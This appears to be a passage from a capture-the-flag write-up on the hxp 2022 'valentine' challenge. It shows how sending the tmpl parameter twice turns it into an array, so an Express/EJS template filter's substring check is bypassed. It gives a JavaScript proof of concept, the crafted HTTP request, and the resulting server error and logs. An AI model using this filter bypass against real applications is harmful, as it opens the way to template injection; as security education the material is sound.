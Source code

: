 >[!bug] 
>`Substring()` is part of the `string` prototype and can be used only on `string` variables. In our case, however, we can pass to the method an `array`, forcing the `if` condition to result always `false`.

PoC:

```js
var tmpl = [ '<%= asd %>', '<%= asd %>' ]
var i
while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
	  console.log('Caught!')
      return;
    }
  }
console.log('bypassed')
```

![](../../zzz_res/attachments/valentine4.png)

HTTP request: 
```http
POST /template
Host: 127.0.0.1:9086
Content-Type: application/x-www-form-urlencoded

tmpl=<%= name %>&tmpl=<%= name %>
```

Server response:
```http
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 32
ETag: W/"20-AGcAsG/itS23B2siUG6nl7RRo0A"
Date: Fri, 10 Mar 2023 20:27:20 GMT
Connection: close

Failed to write Valentine's card
```

Server logs:
```
```js
[ '<%= name %>', '<%= name %>' ]
TypeError [ERR_INVALID_ARG_TYPE]: The "data" argument must be of type string or an instance of Buffer, TypedArray, or DataView. Received an instance of Array
    at Object.writeFileSync (node:fs:2222:5)
    at /app/app.js:36:8
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)
    at next (/app/node_modules/express/lib/router/index.js:280:10)
    at /app/node_modules/body-parser/lib/read.js:137:5 {
  code: 'ERR_INVALID_ARG_TYPE
```


[^1]: https://ejs.co/#docs 
[^2]: https://ejs.co/#docs
[^3]: https://expressjs.com/en/api.html#res.render
[^4]: https://snyk.io/blog/fixing-ejs-rce-vuln/
[^5]: https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data
[^6]: https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/
[^7]: https://eslam.io/posts/ejs-server-side-template-injection-rce/
[^8]: https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x
[^9]: https://hxp.io/blog/101/hxp-CTF-2022-valentine/